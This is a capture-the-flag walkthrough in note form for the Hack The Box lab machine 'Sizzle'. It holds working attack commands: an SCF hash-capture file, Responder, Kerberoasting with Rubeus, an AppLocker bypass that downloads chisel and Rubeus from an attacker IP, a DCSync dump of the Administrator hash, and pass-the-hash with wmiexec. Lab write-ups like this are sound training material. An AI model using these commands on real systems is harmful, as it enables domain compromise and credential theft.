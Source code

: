 # https://0xdf.gitlab.io/2019/06/01/htb-sizzle.html
### No empty lines
https://0xdf.gitlab.io/2019/06/01/htb-sizzle.html#smb---tcp-445

```bash
cat * | xxd | grep -v "0000 0000 0000 0000 0000 0000 0000 0000"
```

### smbcacls on mount
```bash
smbcacls -N '//10.129.230.198/Department Shares' Users

# mount it
sudo mount -t cifs //10.129.230.198/Department\ Shares /mnt

for i in $(ls); do echo $i; smbcacls -N '//10.129.230.198/Department Shares' $i; done
```

```bash
❯ smbcacls -N '//10.129.230.198/Department Shares' Users/Public
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:Everyone:ALLOWED/OI|CI/FULL # <--- write permissions for unauthenticated users then it is possible to obtain passwords hashes of domain users or shells
```

### SMB Share – SCF File Attacks
https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/

```text
[Shell]
Command=2
IconFile=\\10.10.17.120\alvin.ico
[Taskbar]
Command=ToggleDesktop
```

```bash
sudo responder -I tun0 -v
```

Grab the hash and crack it to get credentials `AMANDA:Ashare1972`

### /certsrv/ (Status: 401); feroxbuster won't miss it by default
```bash
gobuster -k -u https://10.10.10.103 -w /usr/share/seclists/Discovery/Web-Content/IIS.fuzz.txt -t 20 -s 200,204,301,302,307,403,401
```

### Sign CSR for winrm
##### One way..
```bash
openssl req -newkey rsa:2048 -nodes -keyout amanda.key -out amanda.csr
```
##### ..or the other since `.crt` and `.cer` are interchangeable
https://github.com/A1vinSmith/OSCP-PWK/wiki/Crack-Hash
```bash
openssl genrsa -aes256 -out enox.key 2048
openssl req -new -key enox.key -out enox.csr

evil-winrm -i 10.129.230.198 -S -c enox.cer -k enox.key
```

# Foothold
### Lateral movement amanda -> mrlky
```
*Evil-WinRM* PS C:\Users\amanda\Desktop> dir
*Evil-WinRM* PS C:\Users\amanda\Desktop> netstat -ap tcp
```
### Kerberoasting as port 88 didn't show up in nmap
##### domain htb.local from nmap scan
```bash
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py htb.local/amanda:Ashare1972 -request -dc-ip $IP
```
it failed as it requires the pivoting first.
### Blocked
`certutil -urlcache -f http://10.10.16.9/chisel chisel`

### Bypass AppBlocker with `IWR`
```bash
IWR http://10.10.16.9/chisel -OutFile chisel.exe
chisel server -p 8008 --reverse
.\chisel.exe client 10.10.16.9:8008 R:88:127.0.0.1:88 R:389:localhost:389
```

### Try it from windows with mimikatz, powerview or Rubeus
`evil-winrm` upload failed just like `certutil`
```
*Evil-WinRM* PS C:\windows\temp> upload /home/alvin/Downloads/Binaries/Rubeus.exe 
Info: Uploading /home/alvin/Downloads/Binaries/Rubeus.exe to C:\windows\temp\Rubeus.exe
```
```
*Evil-WinRM* PS C:\Users\amanda> IWR http://10.10.16.13/Rubeus.exe -OutFile Rubeus.exe
```

##### Rubeus with creds
```
.\Rubeus.exe kerberoast /creduser:htb.local\amanda /credpassword:Ashare1972
```
Program 'Rubeus.exe' failed to run: This program is blocked by group policy.

##### Tricky thing here. Have to use `windows\temp` that AppLocaker isn't restricing even you can't run `dir` to check what's in there.
```
*Evil-WinRM* PS C:\windows\temp> .\Rubeus.exe kerberoast /stats
.\Rubeus.exe kerberoast /nowrap
.\Rubeus.exe kerberoast /creduser:htb.local\amanda /credpassword:Ashare1972
```

### Crack hash
`hashcat -m 13100 --force -a 0 hash /usr/share/wordlists/rockyou.txt`
mrlky:Football#7

##### Sign csr for mrlky again
```bash
openssl req -newkey rsa:2048 -nodes -keyout mrlky.key -out mrlky.csr

evil-winrm -i $IP -S -k mrlky.key -c certnew.cer
```

# Privilege Escalation
### Enum with bloodhound or powerview
Look into the Outbound Object Control. mrlky has the DS-Replication-Get-Changes-All(GetChangesAll) privilege.

### DCSync
##### linux doesn't require pivoting here since it's not Kerberoasting in 88
```bash
❯ impacket-secretsdump -just-dc mrlky:Football#7@$IP

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f6b7160bfc91823792e0ac3a162c9267:::
```

##### check that hash's ablity using crackmapexec
`crackmapexec winrm $IP -u administrator -H f6b7160bfc91823792e0ac3a162c9267`
```
❯ crackmapexec smb $IP -u administrator -H f6b7160bfc91823792e0ac3a162c9267
SMB         10.129.114.166  445    SIZZLE           [*] Windows 10.0 Build 14393 x64 (name:SIZZLE) (domain:HTB.LOCAL) (signing:True) (SMBv1:False)
SMB         10.129.114.166  445    SIZZLE           [+] HTB.LOCAL\administrator:f6b7160bfc91823792e0ac3a162c9267 (Pwn3d!)
```
```
❯ crackmapexec winrm $IP -u administrator -H f6b7160bfc91823792e0ac3a162c9267
SMB         10.129.114.166  5986   SIZZLE           [*] Windows 10.0 Build 14393 (name:SIZZLE) (domain:HTB.LOCAL)
HTTP        10.129.114.166  5986   SIZZLE           [*] https://10.129.114.166:5986/wsman
WINRM       10.129.114.166  5986   SIZZLE           [-] HTB.LOCAL\administrator:f6b7160bfc91823792e0ac3a162c9267 "The server did not response with one of the following authentication methods Negotiate, Kerberos, NTLM - actual: ''"
```
The evil-winrm won't work here. Need alternatives instead.
Impacket psexec.py should work, but it doesn't.

##### Root
```bash
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py -hashes :f6b7160bfc91823792e0ac3a162c9267 Administrator@$IP
```
